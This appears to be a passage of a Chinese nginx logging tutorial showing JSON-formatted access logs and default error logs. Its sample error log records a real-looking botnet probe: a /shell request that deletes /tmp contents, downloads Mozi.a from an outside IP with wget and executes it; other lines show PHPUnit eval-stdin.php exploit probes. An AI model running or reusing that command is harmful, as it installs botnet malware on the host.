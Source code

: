 ```code  
        access_log /usr/local/nginx/logs/nginx001_access.log json;
        error_log /usr/local/nginx/logs/nginx001_error.log;
    
    #省略其他nginx配置
    
    }

#重启 nginx 容器，或者重新加载配置文件，检查access日志格式为json格式，错误日志保持 nginx 默认格式即可

```  
> 4.1.2 最终的日志格式效果, 总之原则就是access日志必须是json格式，error 格式保持默认即可.    
```code  
# nginx001_access.log 日志
{"created_at":"2020-09-21T03:57:35+08:00","time_local":"21/Sep/2020:03:57:35 +0800","remote_addr":"45.146.164.186","method":"GET","request":"GET /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1","status":"404","size":555,"referer": "-","http_host":"49.232.145.118:80","response_time":0.274,"http_x_forwarded_for":"-","user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36"}
{"created_at":"2020-09-21T04:02:19+08:00","time_local":"21/Sep/2020:04:02:19 +0800","remote_addr":"45.146.164.186","method":"POST","request":"POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1","status":"404","size":555,"referer": "-","http_host":"49.232.145.118:80","response_time":0.273,"http_x_forwarded_for":"-","user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36"}
{"created_at":"2020-09-21T04:04:22+08:00","time_local":"21/Sep/2020:04:04:22 +0800","remote_addr":"78.188.205.21","method":"GET","request":"GET / HTTP/1.1","status":"200","size":199,"referer": "-","http_host":"49.232.145.118:80","response_time":0.000,"http_x_forwarded_for":"-","user_agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36"}
{"created_at":"2020-09-21T04:58:00+08:00","time_local":"21/Sep/2020:04:58:00 +0800","remote_addr":"192.241.221.22","method":"GET","request":"GET / HTTP/1.1","status":"200","size":199,"referer": "-","http_host":"49.232.145.118","response_time":0.000,"http_x_forwarded_for":"-","user_agent": "Mozilla/5.0 zgrab/0.x"}

# nginx001_error.log 日志
2020/09/21 00:57:00 [error] 6#0: *26 open() "/usr/local/nginx/html/elrekt.php" failed (2: No such file or directory), client: 106.52.153.48, server: localhost, request: "GET /elrekt.php HTTP/1.1", host: "49.232.145.118"
2020/09/21 00:57:00 [error] 6#0: *27 open() "/usr/local/nginx/html/index.php" failed (2: No such file or directory), client: 106.52.153.48, server: localhost, request: "GET /index.php HTTP/1.1", host: "49.232.145.118"
2020/09/21 01:50:50 [error] 6#0: *30 open() "/usr/local/nginx/html/shell" failed (2: No such file or directory), client: 123.96.229.15, server: localhost, request: "GET /shell?cd+/tmp;rm+-rf+*;wget+http://123.96.229.15:35278/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1", host: "49.232.145.118:80"
# 可能还有其他的错误格式
2018/07/09 16:50:34 [error] 78175#0: *21132 FastCGI sent in stderr: "PHP message: PHP Warning:  Unknown: open_basedir restriction in effect. File(/usr/local/jenkins_manage_project/2018/bestbox_first/public/index.php) is not within the allowed path(s): (/home/wwwroot/:/tmp/:/proc/) in Unknown on line 0
PHP message: PHP Warning:  Unknown: failed to open stream: Operation not permitted in Unknown on line 0
Unable to open primary script: /usr/local/jenkins_manage_project/2018/bestbox_first/public/index.php (Operation not permitted)" while reading response header from upstream, client: 192.168.6.85, server: 192.168.8.62, request: "GET / HTTP/1.1", upstream: "fastcgi://unix:/tmp/php-cgi.sock:", host: "192.168.8.62"

```
